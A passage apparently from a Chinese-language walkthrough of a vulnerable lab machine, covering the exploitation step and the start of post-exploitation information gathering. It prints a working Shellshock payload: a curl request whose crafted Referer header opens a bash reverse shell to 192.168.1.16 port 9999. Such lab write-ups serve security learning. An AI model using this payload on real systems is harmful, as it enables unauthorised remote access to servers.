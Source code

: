 # 漏洞利用

那么这里把`id`命令改成反弹就可以了，或者生成一个`bash`脚本文件，命令解析放在总结

```shell
curl -v http://192.168.1.54/cgi-bin/shell.sh -H "Referer:() { test; }; echo 'Content-Type: text/plain'; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.16/9999 0>&1';exit"
```

![](./pic-thor/20.jpg)

# 靶机内信息收集

之前有一个`connect.php`文件，说是连接数据库的，切换到网站目录

![](./pic-thor/21.jpg)

查看网络状态
